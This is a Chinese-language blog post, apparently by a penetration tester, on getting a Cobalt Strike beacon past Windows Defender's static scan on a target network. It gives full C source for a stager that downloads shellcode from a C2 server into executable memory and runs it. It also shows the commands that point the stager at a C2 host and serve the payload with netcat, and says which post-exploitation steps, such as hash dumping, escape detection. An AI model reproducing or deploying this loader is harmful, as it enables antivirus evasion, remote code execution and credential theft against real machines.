 ```yaml
---
layout: post
title: Beacon-绕过windows defender
date: 2019-09-07 23:30:00
tags: Windows Defender
categories: hack
author: PythonPig
---
```

* content
{:toc}

### \#0x00 写在前面 
最近工作实在是太忙了，一直想找时间把这篇文章写出来，无奈工作压力太大一直没能抽出时间。今天趁这个周末的晚上把这篇文章写完吧。  
之前用CS时习惯性的用windows dll，在windows server 2008 R2上一直运行的很不错，前段时间发现目标网络内部分操作系统升级到了windows server 2016，windows defender也升级到了最新版本，可想而知，没有经过第三方处理的CS beacon payload传上去之后瞬间就被秒了~~，果断google看看有没有好的解决办法，果然搜到了不少解决办法（具体见《参考》部分），今天只研究如何绕过静态扫描，以后补充如何绕过内存扫描、流量分析、行为分析，绕过静态扫描的方法：加密、混淆、截断拼接、payload字符（敏感字符或全部字符）替换、文件不落地等等，不过人怕出名猪怕壮，很多方法已经无法绕过windows defender的检测了。  
{:refdef: style="text-align: center;"}
![windows defender](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Beacon-绕过windows%20defender/windows%20defender.jpg?raw=true)
{: refdef}
图片来源于https://tweaklibrary.com/how-banking-trojan-disables-windows-defender-on-windows-10/



### \#0x01 尝试绕过 
在测试绕过windows defender的静态扫描时，首先使用了[Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)，结果Obfuscation的部分文件直接被windows defender报毒了，关了defender继续使用Obfuscation把cs的payload进行了混淆，结果，还是绕不过defender的静态扫描；后来使用了[Veil](https://github.com/Veil-Framework/Veil)加密CS的Veil payload，结果可以绕过相当一部分杀软的静态扫描，但是还是过不了最新版的defender静态扫描。    

Obfuscation和Veil的失败充分说明了什么叫“人怕出名猪怕壮”的道理。    

竟然混淆、加密都过不了defender的静态扫描，那尝试使用“文件不落地”的方式来绕过defender。  

思路如下：  
编写一个简单的stager，这个stager仅用于申请内存、下载payload并执行，该stager本身并不包含恶意代码，因此可以绕过windows defender的静态扫描。  

##### 1、编写stager
首先编写stager用于远程下载payload并执行，这个stager是一个TCP客户端，从我们的C2服务器下载payload、申请内存、执行payload。代码如下(Visual Studio 2010编译)：  
```
#include "stdafx.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#include <stdlib.h>

#pragma comment(lib, "ws2_32.lib")
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"" )


int main(int argc, char *argv[])
{    
	// Declare and initialize variables
	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);
   

	if (argc != 3) {
        fprintf(stderr,"usage: stager.exe hostname port\n");
        exit(0);
    }
	struct hostent *host;
    if ((host=gethostbyname(argv[1])) == NULL) {  /* get the host info */			
        puts("Get IP address error!");     
        exit(0);
    }
	
	int port = 0;
	if ((port = atoi(argv[2])) == NULL) {  /* get the port info */
        puts("Get port error!");     
        exit(0);
    }

    SOCKET sclient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if(sclient == INVALID_SOCKET)
    {
        printf("invalid socket !");
        return 0;
    }

    sockaddr_in serAddr;
    serAddr.sin_family = AF_INET;
    serAddr.sin_port = htons(port);
	serAddr.sin_addr = *((struct in_addr *)host->h_addr);
	
    if (connect(sclient, (sockaddr *)&serAddr, sizeof(serAddr)) == SOCKET_ERROR)
    {
        printf("connect error !");
        closesocket(sclient);
        return 0;
    }  
    char recData[1024];
    int receivedBytes = recv(sclient, recData, sizeof(recData), 0);
	printf("received:%d\n",receivedBytes);
    if(receivedBytes > 0)
    {      
		LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);	
		printf("Allocated memory for shellocode at:%p\n",shellcode);
	
		memcpy(shellcode, recData, sizeof(recData));	
		printf("Copied shellcode to:%p,Sending back meterpreter session...\n",shellcode);
		((void(*)()) shellcode)();
    }
    closesocket(sclient);
    WSACleanup();	
    return 0;
}
```
stager生成之后，上传至目标机器并执行，执行方式如：stager.exe c2_hostname port  
```
stager.exe www.xxxxxx.com 53    //使用域名方式
stager.exe 8.8.x.x 8080         //使用IP方式
```

##### 2、生成CS payload并在C2服务器启动TCP Server
使用CS生成payload  
{:refdef: style="text-align: center;"}
![生成payload](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Beacon-绕过windows%20defender/生成payload.png?raw=true)
{: refdef}   

在C2服务器上开启TCP Server，为了方便起见，直接使用netcat  
```
echo -e "\xfc\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\x00\x00\x00\x00\x00" | nc -l -p 53 -vvv
```
其中“\xfc\xxx\xxx\……\x00"为CS生成的payload。  

##### 3、目标上线
stager在目标机器上执行后，stager将在C2服务器下载payload并执行，目标上线。注意，虽然绕过了windows defender的静态扫描，但仍然需要小心defender的行为检测，比如利用beacon session进行提权、调用mimikatz时都会被defender检测到，不过dump hashes、proxy server等功能是可以正常执行的。  


### \#0x03 参考
* [渗透利器Cobalt Strike - 第2篇 APT级的全面免杀与企业纵深防御体系的对抗](https://xz.aliyun.com/t/4191#toc-5)
* [Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions](https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon#code) 
* [Cobalt Strike – Bypassing Windows Defender with Obfuscation](http://www.offensiveops.io/tools/cobalt-strike-bypassing-windows-defender-with-obfuscation/)
* [Evading Windows Defender with 1 Byte Change](https://ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change)  
* [I rolled my own crypto to work around](https://twitter.com/curi0usJack/status/1083470829290164227?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1083470829290164227&ref_url=https%3A%2F%2Ftwitter.com%2Fcuri0usJack%2Fstatus%2F1083470829290164227) 